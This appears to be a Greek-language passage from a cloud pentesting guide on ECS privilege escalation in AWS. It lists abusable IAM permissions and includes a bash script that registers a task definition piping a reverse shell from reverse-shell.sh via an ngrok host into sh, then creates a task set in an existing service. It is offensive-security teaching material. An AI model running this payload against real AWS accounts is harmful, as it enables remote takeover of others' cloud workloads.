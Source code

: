 Μπορείτε να βρείτε **παραδείγματα αυτών των επιλογών** στις **προηγούμενες ECS privesc ενότητες**.

**Potential Impact:** Privesc σε διαφορετικό role συνδεδεμένο με containers.

### `ssm:StartSession`

Δείτε στη **ssm privesc page** πώς μπορείτε να καταχραστείτε αυτήν την άδεια για να **privesc to ECS**:

{{#ref}}
aws-ssm-privesc.md
{{#endref}}

### `iam:PassRole`, `ec2:RunInstances`

Δείτε στην **ec2 privesc page** πώς μπορείτε να καταχραστείτε αυτές τις άδειες για να **privesc to ECS**:

{{#ref}}
aws-ec2-privesc.md
{{#endref}}

### `ecs:RegisterContainerInstance`, `ecs:DeregisterContainerInstance`, `ecs:StartTask`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα μπορούσε ενδεχομένως να καταχωρήσει ένα EC2 instance σε ένα ECS cluster και να τρέξει tasks πάνω του. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να εκτελέσει αυθαίρετο κώδικα στο πλαίσιο των ECS tasks.

- TODO: Είναι δυνατόν να καταχωρηθεί ένα instance από διαφορετικό AWS account έτσι ώστε τα tasks να τρέχουν σε μηχανές που ελέγχονται από τον επιτιθέμενο??

### `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, `ecs:DescribeTaskSets`

> [!NOTE]
> TODO: Δοκιμάστε αυτό

Ένας επιτιθέμενος με τις άδειες `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, και `ecs:DescribeTaskSets` μπορεί να **δημιουργήσει ένα κακόβουλο task set για μια υπάρχουσα ECS service και να ενημερώσει το primary task set**. Αυτό επιτρέπει στον επιτιθέμενο να **εκτελέσει αυθαίρετο κώδικα εντός της υπηρεσίας**.
```bash
# Register a task definition with a reverse shell
echo '{
"family": "malicious-task",
"containerDefinitions": [
{
"name": "malicious-container",
"image": "alpine",
"command": [
"sh",
"-c",
"apk add --update curl && curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | sh"
]
}
]
}' > malicious-task-definition.json

aws ecs register-task-definition --cli-input-json file://malicious-task-definition.json

# Create a malicious task set for the existing service
aws ecs create-task-set --cluster existing-cluster --service existing-service --task-definition malicious-task --network-configuration "awsvpcConfiguration={subnets=[subnet-0e2b3f6c],securityGroups=[sg-0f9a6a76],assignPublicIp=ENABLED}"

# Update the primary task set for the service
```